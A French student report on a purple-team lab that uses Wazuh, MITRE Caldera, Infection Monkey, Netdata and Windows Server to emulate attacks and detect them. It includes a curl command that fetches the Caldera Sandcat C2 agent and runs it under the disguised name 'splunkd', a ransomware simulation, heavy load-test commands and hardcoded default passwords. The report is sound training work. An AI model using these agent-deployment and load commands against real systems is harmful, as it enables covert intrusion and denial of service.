**| E5 - Metz - CACCIATORE Vincent |**  
***avec GRECO Clément***

*23 octobre 2025*

# Projet CISSP IS Security Best Practices

## 📑 Table des matières
#### [1. Contexte & consignes (rappel)](#sec-1)
#### [2. Architecture déployée](#sec-2)
#### [A. Stress test - Visualisation Netdata](#sec-a)
#### [B. Caldera & Wazuh](#sec-b)
#### [C. Infection Monkey](#sec-c)
#### [D. Windows Server](#sec-d)
#### [3. Recommandations](#sec-3)
#### [4. Conclusion](#sec-4)

---

> **But** : démontrer l’intérêt d’une stratégie d’**adversary emulation** en déployant un lab *all-in-one*, en lançant des attaques automatisées/contrôlées et en montrant les traces dans un SIEM/outil d’observabilité.  
> **Périmètre** : lab local (VM Ubuntu Server / Docker Compose).

---
<a id="sec-1"></a>
## 1. Contexte & consignes (rappel)
- Déployer un lab “tout-en-un” prêt à l’emploi contenant :  
  - une instance Linux (cibles),  
  - un serveur de monitoring/observabilité,  
  - un serveur C2,  
  - un SIEM / visualisation des logs,  
  - un Windows Server.
- Pouvoir simuler des cyberattaques (automatiques si possible) et visualiser les traces remontées.  
- Produire un document décrivant la démarche, étapes, commandes et captures à fournir.

---
<a id="sec-2"></a>
## 2. Architecture déployée

### Schéma de l'infrastructure


### *docker-compose.yml*
```bash
services:
  # ---------- WAZUH INDEXER ----------
  wazuh.indexer:
    image: wazuh/wazuh-indexer:4.13.1
    hostname: wazuh.indexer
    restart: always
    ports:
      - "9200:9200"
    environment:
      - OPENSEARCH_JAVA_OPTS=-Xms1g -Xmx1g
    ulimits:
      memlock: { soft: -1, hard: -1 }
      nofile:  { soft: 65536, hard: 65536 }
    volumes:
      - wazuh-indexer-data:/var/lib/wazuh-indexer
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/root-ca.pem:/usr/share/wazuh-indexer/certs/root-ca.pem:ro
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/wazuh.indexer-key.pem:/usr/share/wazuh-indexer/certs/wazuh.indexer.key:ro
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/wazuh.indexer.pem:/usr/share/wazuh-indexer/certs/wazuh.indexer.pem:ro
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/admin.pem:/usr/share/wazuh-indexer/certs/admin.pem:ro
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/admin-key.pem:/usr/share/wazuh-indexer/certs/admin-key.pem:ro
      - ./wazuh-docker/single-node/config/wazuh_indexer/wazuh.indexer.yml:/usr/share/wazuh-indexer/opensearch.yml:ro
      - ./wazuh-docker/single-node/config/wazuh_indexer/internal_users.yml:/usr/share/wazuh-indexer/opensearch-security/internal_users.yml:ro

  # ---------- WAZUH MANAGER ----------
  wazuh.manager:
    image: wazuh/wazuh-manager:4.13.1
    hostname: wazuh.manager
    restart: always
    ulimits:
      memlock: { soft: -1, hard: -1 }
      nofile:  { soft: 655360, hard: 655360 }
    ports:
      - "1514:1514"
      - "1515:1515"
      - "514:514/udp"
      - "55000:55000"
    environment:
      - INDEXER_URL=https://wazuh.indexer:9200
      - INDEXER_USERNAME=admin
      - INDEXER_PASSWORD=SecretPassword
      - FILEBEAT_SSL_VERIFICATION_MODE=full
      - SSL_CERTIFICATE_AUTHORITIES=/etc/ssl/root-ca.pem
      - SSL_CERTIFICATE=/etc/ssl/filebeat.pem
      - SSL_KEY=/etc/ssl/filebeat.key
      - API_USERNAME=wazuh-wui
      - API_PASSWORD=MyS3cr37P450r.*-
    volumes:
      - wazuh_api_configuration:/var/ossec/api/configuration
      - wazuh_etc:/var/ossec/etc
      - wazuh_logs:/var/ossec/logs
      - wazuh_queue:/var/ossec/queue
      - wazuh_var_multigroups:/var/ossec/var/multigroups
      - wazuh_integrations:/var/ossec/integrations
      - wazuh_active_response:/var/ossec/active-response/bin
      - wazuh_agentless:/var/ossec/agentless
      - wazuh_wodles:/var/ossec/wodles
      - filebeat_etc:/etc/filebeat
      - filebeat_var:/var/lib/filebeat
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/root-ca-manager.pem:/etc/ssl/root-ca.pem:ro
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/wazuh.manager.pem:/etc/ssl/filebeat.pem:ro
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/wazuh.manager-key.pem:/etc/ssl/filebeat.key:ro
      - ./wazuh-docker/single-node/config/wazuh_cluster/wazuh_manager.conf:/wazuh-config-mount/etc/ossec.conf:ro
    depends_on:
      - wazuh.indexer

  # ---------- WAZUH DASHBOARD ----------
  wazuh.dashboard:
    image: wazuh/wazuh-dashboard:4.13.1
    hostname: wazuh.dashboard
    restart: always
    ports:
      - "443:5601"
    environment:
      - INDEXER_USERNAME=admin
      - INDEXER_PASSWORD=SecretPassword
      - WAZUH_API_URL=https://wazuh.manager
      - DASHBOARD_USERNAME=kibanaserver
      - DASHBOARD_PASSWORD=kibanaserver
      - API_USERNAME=wazuh-wui
      - API_PASSWORD=MyS3cr37P450r.*-
    volumes:
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/wazuh.dashboard.pem:/usr/share/wazuh-dashboard/certs/wazuh-dashboard.pem:ro
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/wazuh.dashboard-key.pem:/usr/share/wazuh-dashboard/certs/wazuh-dashboard-key.pem:ro
      - ./wazuh-docker/single-node/config/wazuh_indexer_ssl_certs/root-ca.pem:/usr/share/wazuh-dashboard/certs/root-ca.pem:ro
      - ./wazuh-docker/single-node/config/wazuh_dashboard/opensearch_dashboards.yml:/usr/share/wazuh-dashboard/config/opensearch_dashboards.yml:ro
      - ./wazuh-docker/single-node/config/wazuh_dashboard/wazuh.yml:/usr/share/wazuh-dashboard/data/wazuh/config/wazuh.yml:ro
      - wazuh-dashboard-config:/usr/share/wazuh-dashboard/data/wazuh/config
      - wazuh-dashboard-custom:/usr/share/wazuh-dashboard/plugins/wazuh/public/assets/custom
    depends_on:
      - wazuh.indexer
      - wazuh.manager

  # Agent Wazuh pour la cible "hello"
  wazuh.agent-hello:
    image: wazuh/wazuh-agent:4.13.1
    hostname: hello-agent
    depends_on:
      - wazuh.manager
    environment:
      - WAZUH_MANAGER=wazuh.manager
      - WAZUH_AGENT_GROUP=linux
      - WAZUH_AGENT_NAME=hello-agent
    networks: [ default ]

  # Agent Wazuh pour la cible "juice-shop"
  wazuh.agent-juice:
    image: wazuh/wazuh-agent:4.13.1
    hostname: juice-agent
    depends_on:
      - wazuh.manager
    environment:
      - WAZUH_MANAGER=wazuh.manager
      - WAZUH_AGENT_GROUP=linux
      - WAZUH_AGENT_NAME=juice-agent
    networks: [ default ]


  # ---------- CALDERA ----------
  caldera:
    image: ghcr.io/mitre/caldera:latest
    container_name: caldera
    restart: unless-stopped
    ports:
      - "8888:8888"
    volumes:
      - caldera_data:/caldera/data
    environment:
      - CALDERA_INSECURE=true

  # ---------- MongoDB ----------
  mongo:
    image: mongo:4.4
    platform: linux/amd64
    container_name: mongo
    hostname: mongo
    restart: unless-stopped
    ports:
      - "27017:27017"
    volumes:
      - monkey-tutorial-db:/data/db
    healthcheck:
      test: ["CMD", "mongo", "--quiet", "--eval", "db.runCommand({ ping: 1 }).ok"]
      interval: 10s
      timeout: 5s
      retries: 12

  # ---------- Infection Monkey ----------
  monkey-island:
    image: infectionmonkey/monkey-island:e7c59c79d
    container_name: monkey-island
    hostname: monkey-island
    restart: unless-stopped
    ports:
      - "5000:5000"
    environment:
      - MONKEY_MONGO_URL=mongodb://mongo:27017/monkey_island_test
      - MONGO_URL=mongodb://mongo:27017/monkey_island_test
    depends_on:
      mongo:
        condition: service_healthy

  # ---------- Machine cible "hello" (SSH) ----------
  hello:
    image: infectionmonkey/ssh1
    container_name: hello
    hostname: hello
    command: '/usr/sbin/sshd -D && sh -c "trap : TERM INT; tail -f /dev/null & wait"'
    # Si tu veux exposer le SSH du conteneur :
    # ports:
    #   - "2222:22"

  # ---------- NETDATA ----------
  netdata:
    image: netdata/netdata:latest
    container_name: netdata
    hostname: netdata
    cap_add: ["SYS_PTRACE"]
    pid: "host"
    restart: unless-stopped
    ports:
      - "19999:19999"
    volumes:
      - netdata_lib:/var/lib/netdata
      - netdata_etc:/etc/netdata
      - /proc:/host/proc:ro
      - /sys:/host/sys:ro
      - /etc/passwd:/host/etc/passwd:ro
      - /var/run/docker.sock:/var/run/docker.sock:ro


  # ---------- Windows Server (dockurr/windows) ----------
  windows:
    image: dockurr/windows
    container_name: windows
    restart: unless-stopped
    environment:
      VERSION: "2019"
      RAM_SIZE: "6G"
      CPU_CORES: "2"
      # PASSWORD: "P@ssw0rd!"
    devices:
      - /dev/kvm
      - /dev/net/tun
    cap_add:
      - NET_ADMIN
    sysctls:
      - net.ipv4.ip_forward=1
    ports:
      - "8006:8006"      # console dockurr
      - "3389:3389/tcp"  # RDP
      - "3389:3389/udp"
    volumes:
      - ./windows:/storage

# ---------- VOLUMES ----------
volumes:
  # Wazuh
  wazuh_api_configuration:
  wazuh_etc:
  wazuh_logs:
  wazuh_queue:
  wazuh_var_multigroups:
  wazuh_integrations:
  wazuh_active_response:
  wazuh_agentless:
  wazuh_wodles:
  filebeat_etc:
  filebeat_var:
  wazuh-indexer-data:
  wazuh-dashboard-config:
  wazuh-dashboard-custom:

  # Ajouts
  caldera_data:
  monkey-tutorial-db:
  netdata_lib:
  netdata_etc:
```

| Service                          | Image                               |                                                            Rôle / Description | Ports exposés                             | Remarques                                                                     |
| -------------------------------- | ----------------------------------- | ----------------------------------------------------------------------------: | ----------------------------------------- | ----------------------------------------------------------------------------- |
| Wazuh Indexer                    | `wazuh/wazuh-indexer:4.13.1`        | Moteur d'indexation (équivalent OpenSearch) — stockage et indexation des logs | `9200`                                    | Nécessite certificats SSL (root-ca, admin certs).                             |
| Wazuh Manager                    | `wazuh/wazuh-manager:4.13.1`        |                     Collecte et corrélation des logs, gestion des agents, API | `1514`, `1515`, `514/udp`, `55000`        | Configuration: `INDEXER_URL=https://wazuh.indexer:9200`. Dépend de l'indexer. |
| Wazuh Dashboard                  | `wazuh/wazuh-dashboard:4.13.1`      |        Interface utilisateur (Kibana-like) pour visualiser alertes / tableaux | `5601` (mappé sur `443` hôte)             | Variables d'environnement pour connexion à l'indexer/manager.                 |
| Caldera                          | `ghcr.io/mitre/caldera:latest`      |                                           Plateforme C2 / adversary emulation | `8888`                                    | Utilisé pour déployer agents Sandcat et lancer opérations d'émulation.        |
| MongoDB                          | `mongo:4.4`                         |                            Base de données (nécessaire pour Monkey / Caldera) | `27017`                                   | Healthcheck activé ; platform linux/amd64.                                    |
| Infection Monkey (Monkey Island) | `infectionmonkey/monkey-island:...` |       Outil d'attaque automatique / simulation (ransomware, lateral movement) | `5000`                                    | UI HTTPS; nécessite connexion d'agents monkey sur cibles.                     |
| Cible (SSH) - hello              | `infectionmonkey/ssh1`              | Conteneur cible vulnérable (SSH) — utilisé pour tests et déploiement d'agents | (optionnel) `2222` si exposé              | Contient l'agent Sandcat / espaces de test (home/vault).                      |
| Wazuh Agent - hello              | `wazuh/wazuh-agent:4.13.1`          |          Agent installé sur la cible pour remonter télémétrie vers le manager | n/a (communication sortante vers manager) | Peut être installé in-container (hello) ou sur conteneur agent séparé.        |
| Wazuh Agent - juice              | `wazuh/wazuh-agent:4.13.1`          |                                    Agent pour la cible juice-shop (optionnel) | n/a                                       | Même rôle que ci-dessus pour la cible web.                                    |
| Netdata                          | `netdata/netdata:latest`            |              Observabilité temps réel (CPU/Memory/Disk/Network per container) | `19999`                                   | Monte `/var/run/docker.sock` en lecture pour lier conteneurs et noms.         |
| Windows (dockurr/windows)        | `dockurr/windows`                   |        VM Windows (optionnelle) pour tests RDP/AD/Windows-specific detections | `3389` (RDP), `8006` (console)            | Requiert `/dev/kvm` et privilèges; utile pour scénarios Windows.              |


Ce docker-compose.yml permet donc d'exécuter l'ensemble de ces services !



---
<a id="sec-a"></a>
## A. **Stress test** - Visualisation Netdata

#### Objectif
Générer une charge HTTP élevée sur plusieurs conteneurs web pour :
- observer l’impact CPU/Mémoire/Réseau/Disk dans **Netdata**,
- valider que Netdata identifie les conteneurs par nom,
- produire captures & métriques.

> **ATTENTION** : tests agressifs pouvant saturer la VM / faire swapper / rendre la VM inutilisable.


#### 1 — Déployer trois conteneurs web (commandes)
VM hôte (ou exécuter localement si Docker installé) :

```bash
# Caddy (port 80)
docker run -d -p 80:80 --name mycaddy caddy

# Nginx (alpine-slim) → port 8080 sur l'hôte
docker run -d --name myalpineslimginx -p 8080:80 nginx:alpine-slim

# httpd (apache alpine) → port 9090 sur l'hôte
docker run -d --name myhttpd -p 9090:80 httpd:alpine
```

Vérifier :
```bash
docker ps --format "table {{.Names}}	{{.Image}}	{{.Ports}}"
```

---

#### 2 — Installer l’outil de bench (`ab`)
Sur l’Ubuntu (où tu lances les tests) :
```bash
sudo apt update
sudo apt install -y apache2-utils
```

#### 3 — Tests de charge (progressifs)

##### 1) Test de fumée (safe)
```bash
ab -n 1000 -c 10 http://127.0.0.1:8080/
ab -n 1000 -c 10 http://127.0.0.1:9090/
ab -n 1000 -c 10 http://127.0.0.1/
```

##### 2) Test intermédiaire (montée en charge)
```bash
ab -n 10000 -c 100 http://127.0.0.1:8080/ &
ab -n 10000 -c 100 http://127.0.0.1:9090/ &
ab -n 10000 -c 100 http://127.0.0.1/ &
```
(le `&` lance en arrière-plan — surveille `top`/`htop`)

##### 3) Test agressif (lourd)
 
```bash
ab -n 10000000 -c 1000 http://127.0.0.1:8080/ &
ab -n 10000000 -c 1000 http://127.0.0.1:9090/ &
ab -n 10000000 -c 1000 http://127.0.0.1/ &
```


#### 4 — Surveillance & vérifications pendant le test

Dans **Netdata** (`http://localhost:19999`) :  
- **Containers & VMs → Cgroups** : CPU / Memory / Disk I/O par conteneur  
- **Docker Engine** : connectivité & réseau par container  
- **System Overview** : load average, CPU % global, swap, disk I/O

**Avant le stress test** :



Des performances "normales", *windows* est en premier en consommation de RAM car dans notre *docker-compose.yml* on a lancé un Windows Server 2019.

**Pendant le stress test** :



#### 5 — Interprétation
- **Conteneurs qui consomment le plus CPU** → corrélation avec `ab` ciblant le port (nginx/httpd/caddy).  
- **Saturation CPU → montée du load average** → risque d’échec de réponses, augmentation latence, erreurs 5xx.  
- **Swap utilisé** → VM insuffisante => réduire charge ou augmenter RAM.  
- **Disk I/O élevé** → logs/Indexing qui sature le disque (Wazuh Indexer peut générer I/O).  
- **Network I/O** → pics pendant benchs (exfil possible si simulateur d’exfil). 

Ce stress test valide la visibilité de l’infrastructure via Netdata et montre la montée en charge maîtrisée des conteneurs.

---
<a id="sec-b"></a>
## B. **Caldera & Wazuh**
#### Objectif
Déployer et contrôler des agents Sandcat (HTTP et P2P) depuis Caldera afin d'émuler des TTPs et collecter traces/logs dans Wazuh et Netdata.


#### 1 — Credentials & connexion
On se rend sur http://localhost:8888

Caldera, par défaut, conserve une config dans le conteneur. Pour retrouver le user/password `red` (ou les credentials utiles), on ouvre un shell dans le conteneur Caldera :

```bash
docker exec -it caldera /bin/bash || docker exec -it caldera /bin/sh
```

Puis on affiche le contenu du local.yml :
```bash
cat /usr/src/app/conf/local.yml
```



On peut enfin se connecter : 


#### 2 — Déploiement Sandcat - HTTP
**But** : déployer un agent Sandcat HTTP sur une cible (Linux / Windows / Mac) et vérifier qu'il beacon vers le C2.

On exécute l'agent depuis notre VM : 
```bash
server="http://127.0.0.1:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v
```

L'agent s'est bien déployé :



#### 3 — Déploiement opération
On créé une opération qui va exécuter des commandes "discovery" sur la machine (whoami etc...)




L'opération se lance bien avec un ensemble de commandes qui s'exécutent !
On a aussi la possibilité d'en lancer manuellement.

#### 4 — Wazuh
On se rend sur https://localhost et on se connecte avec les credentials par défaut : 

On arrive sur l'interface global :

On observe que notre agent est bien présent et on peut analyser les remontées via l'onglet "Threat Hunting" :


On voit bien les remontées d'informations directement sur notre interface :




Les exécutions de notre opération passant par notre agent précédemment créé sont détectées !

---
<a id="sec-c"></a>
## C. **Infection Monkey**
#### Objectif
Infection Monkey (Guardicore) est un simulateur d'attaques autonome. Il permet de configurer des agents, définir des cibles, et exécuter des scénarios (ex : chiffrement de fichiers) pour évaluer la résilience et la détection.

#### 1 — Credentials & connexion
Paramètres importants :

Scan target list : définition des IP/hôtes à scanner.
Scan Agent's networks : option à cocher si l'agent doit scanner ses interfaces.
File extension : .m0nk3y (extension appliquée aux fichiers chiffrés).
Linux target directory : /tmp/monkey_demo (ou /home/user/vault selon configuration).



On télécharge tous les plugins safe puis on active le plugin *ransomware* :

 


#### 2 — Execution
On définit notre cible et on run :




Après l'exécution, on observe les fichiers dans le répertoire cible :



Tout a été chiffré et un *README.md* est présent, on peut observer le rapport sur l'interface également :



---
<a id="sec-d"></a>
## D. **Windows Server**

Via notre docker-compose.yml, nous avons déployé un Windows Server 2019 (assez rapidement) :


#### 1 — Script PowerShell

En admin, on lance ce script :
```bash
# ------------------------------
# 1) Variables (modifier si besoin)
$MANAGER_IP = '172.19.0.8'      # <- remplace si nécessaire
$WAZUH_VERSION = '4.13.1'       # version agent
$TMP = "$env:TEMP\wazuh_inst"
$MSI = "wazuh-agent-$WAZUH_VERSION.msi"
$MSI_URL = "https://packages.wazuh.com/4.x/windows/wazuh-agent-4.13.1.msi"
$OSSEC_CONF = "C:\Program Files (x86)\ossec-agent\ossec.conf"
$BACKUP = "$OSSEC_CONF.bak.$((Get-Date).ToString('yyyyMMddHHmmss'))"
# ------------------------------

# Create temp dir
New-Item -Path $TMP -ItemType Directory -Force | Out-Null

Write-Host "[*] Téléchargement du MSI Wazuh..."
Invoke-WebRequest -Uri $MSI_URL -OutFile "$TMP\$MSI"

Write-Host "[*] Installation silencieuse du Wazuh agent (avec manager $MANAGER_IP)..."
Start-Process msiexec.exe -Wait -ArgumentList "/i `"$TMP\$MSI`" /qn SERVER_ADDR=$MANAGER_IP"

# Wait a bit
Start-Sleep -Seconds 4

# Backup ossec.conf
if (Test-Path $OSSEC_CONF) {
    Copy-Item -Path $OSSEC_CONF -Destination $BACKUP -Force
    Write-Host "[*] Sauvegarde de ossec.conf -> $BACKUP"
} else {
    Write-Host "[!] ossec.conf introuvable à $OSSEC_CONF - vérifie le chemin d'installation"
}

# Insert FIM directories into <syscheck> section (idempotent)
$snippet = @"
  <!-- Ajouté automatiquement: surveille Desktop et dossier ImportantVault -->
  <directories check_all="yes" report_changes="yes" realtime="yes">C:\Users\Public\Documents</directories>
  <directories check_all="yes" report_changes="yes" realtime="yes">C:\Users\%USERNAME%\Desktop</directories>
  <directories check_all="yes" report_changes="yes" realtime="yes">C:\ImportantVault</directories>
"@

try {
    $xml = [xml](Get-Content $OSSEC_CONF -Raw)
} catch {
    Write-Host "[!] Impossible de parser $OSSEC_CONF en XML"
    exit 1
}

# Ensure <syscheck> exists
if (-not $xml.ossec_config.syscheck) {
    $syscheckNode = $xml.CreateElement("syscheck")
    $xml.ossec_config.AppendChild($syscheckNode) | Out-Null
}

# Add snippet only if not present already (prevenir doublons)
$syscheckRaw = $xml.ossec_config.syscheck.InnerXml
if ($syscheckRaw -notlike '*ImportantVault*' -and $syscheckRaw -notlike '*Public\Documents*') {
    # Inject snippet text into syscheck node (preserve xml structure by appending nodes)
    # We'll append as text and then re-save.
    $xml.ossec_config.syscheck.InnerXml = $xml.ossec_config.syscheck.InnerXml + $snippet
    $xml.Save($OSSEC_CONF)
    Write-Host "[*] Snippet FIM ajouté dans $OSSEC_CONF"
} else {
    Write-Host "[*] Snippet FIM déjà présent, pas de modification."
}

# Restart service
Write-Host "[*] Redémarrage du service wazuh-agent..."
Restart-Service -Name "wazuh-agent" -Force -ErrorAction SilentlyContinue
Start-Sleep -Seconds 3

# Create test file
Write-Host "[*] Création d'un fichier test et d'un fichier .encrypted sur le Desktop..."
$desktop = Join-Path -Path $env:USERPROFILE -ChildPath 'Desktop'
New-Item -ItemType Directory -Path $desktop -Force | Out-Null
$testFile = Join-Path $desktop ("test" + ".txt")
"simu_encrypted" | Out-File -FilePath $encrypted -Encoding UTF8

# Show recent ossec.log tail
$logPath = "C:\Program Files (x86)\ossec-agent\logs\ossec.log"
Write-Host "`n[*] 10 dernières lignes de ossec.log (si dispo):"
if (Test-Path $logPath) {
    Get-Content $logPath -Tail 10
} else {
    Write-Host "[!] $logPath introuvable"
}

Write-Host "`n[*] Terminé. Vérifie le manager Wazuh (agent doit être connecté)."
```

Le script télécharge et installe le MSI officiel Wazuh (version 4.13.1).

Il modifie ossec.conf pour ajouter la surveillance FIM (Desktop, Public Documents, C:\ImportantVault).

Il redémarre le service Wazuh et crée un fichier test sur le Desktop :



Lorsqu'on retourne sur notre interface Wazuh, on sélectionne notre agent correspondant et on a bien la remontée !


---

<a id="sec-3"></a>
## 3. Recommandations

### 🛡️ Sécurité et durcissement des serveurs
- **Analyser les surfaces d’exposition** et désactiver les services inutiles.  
- **Mettre à jour régulièrement** tous les conteneurs et dépendances.  
- **Appliquer le chiffrement TLS/SSL** à toutes les communications (Caldera, Wazuh, Netdata).  
- **Limiter les privilèges Docker** : containers non privilégiés, `no-new-privileges`, volumes en lecture seule.  
- **Isoler le réseau de test** du réseau hôte/production.  
- **Contrôle d’intégrité (FIM)** activé sur les répertoires sensibles pour détecter tout changement.  

### 🔍 Observabilité et corrélation
- **Centralisation des journaux** dans Wazuh et Netdata.  
- Création de **dashboards de détection d’anomalies** (process suspects, pics de charge).  
- **Alerting automatique** pour les événements critiques (ransomware, élévation de privilège, connexions non autorisées).  
- **Interopérabilité XDR/SIEM** : possibilité d’exporter les logs vers une plateforme externe (ELK, Splunk).  

### ⚙️ Automatisation et industrialisation
- **Script de déploiement complet** : génération auto des certificats, configuration Wazuh et lancement de l’infrastructure.  
- **Variables d’environnement documentées** (`.env`) pour un redéploiement rapide.  
- **CI/CD** (GitHub Actions/GitLab CI) pour tester et maintenir la cohérence du lab.  
- **Snapshots** ou backups des volumes critiques (MongoDB, Wazuh Indexer, données Netdata).  

### 🧩 Exploitation pédagogique et analyses
- Création de **scénarios MITRE ATT&CK** : reconnaissance, exécution, persistance, exfiltration.  
- Association de chaque étape à des alertes Wazuh et à des traces Netdata.  
- **Rédaction de playbooks d’incidents** (contenu du rapport).  
- **Analyse post-attaque** : interprétation des logs, identification de la faille, proposition de contre‑mesures.  

---

<a id="sec-4"></a>
## 4. Conclusion

### 🎯 Synthèse du projet
Le projet **CISSP IS Security Best Practices** a permis de :  
1. Déployer un **lab tout-en-un fonctionnel**,  
2. **Simuler des attaques offensives** avec Caldera et Infection Monkey,  
3. **Détecter, corréler et visualiser** les événements avec Wazuh (XDR/SIEM),  
4. **Observer les impacts systèmes** via Netdata,  
5. **Intégrer Windows Server et Linux** dans un même écosystème,  
6. **Automatiser** le déploiement complet pour portabilité.

### 💡 Enseignements majeurs
- Approche **Purple Team** : offensive (Caldera/Monkey) + défensive (Wazuh/XDR).  
- Vision complète de la **chaîne d’attaque → détection → remédiation**.  
- Démonstration claire de la **valeur d’une stratégie d’adversary emulation**.  

### 🚀 Perspectives
- Ajouter un **vrai XDR commercial** pour comparaison avec Wazuh.  
- Étendre la supervision à **Prometheus + Grafana** pour plus de métriques.  
- Créer un **catalogue de scénarios réutilisables** (MITRE ATT&CK / Caldera).  
- Porter le lab sur **cloud (Azure ou AWS)** pour simuler des environnements hybrides.